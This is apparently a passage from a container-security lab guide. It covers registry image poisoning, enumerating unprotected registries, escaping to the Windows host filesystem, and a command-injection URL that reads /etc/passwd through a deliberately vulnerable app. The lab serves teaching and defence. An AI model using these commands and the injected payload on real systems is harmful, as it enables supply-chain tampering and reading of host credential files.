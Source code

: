     docker run --rm localhost:5000/awesometool:1.1

Everything seems normal. And clean up your environment

    docker image rm localhost:5000/toolbase:1.0
    docker image rm localhost:5000/awesometool:1.1

Now somebody does this on their machine

    docker build -t localhost:5000/toolbase:1.0 -f Dockerfile_evil_base .
    docker push localhost:5000/toolbase:1.0
    docker image rm localhost:5000/toolbase:1.0

You are a developer, rebuilding your container yet again

    docker build -t localhost:5000/awesometool:1.1  .

And running it

    docker run --rm --name awesometool localhost:5000/awesometool:1.1

Waht do you see? Now stop it

    docker kill awesometool 

Enumerating vulnerable registries

    curl http://localhost:5000/v2/_catalog
    curl http://localhost:5000/v2/awesometool/tags/list

## 7. Windows containers

    docker run -it --rm -v c:/:c:/host mcr.microsoft.com/windows/servercore:1809 powershell
    whoami

But you have admin rights on your box

    echo $null >> /host/windows/system32/test

What is available for your container

    Get-WindowsFeature

## 8. Application Security

Build and run a vulnerable app

    cd 5
    docker build -t dsvw .
    docker run -p 1234:65412 -v /:/www -it dsvw

Now browse and to an RCE

    http://localhost:1234/?domain=www.google.com%3B%20cat%20/www/etc/passwd

Scanning with Trivy

WARNING - this will pull a ton of stuff from the internet and save it to a .cache folder in the current folder.

    docker run --rm -v /var/run/docker.sock:/var/run/docker.sock -v $PWD/.cache:/root/.cache/ aquasec/trivy localhost:5000/awesometool:1.1
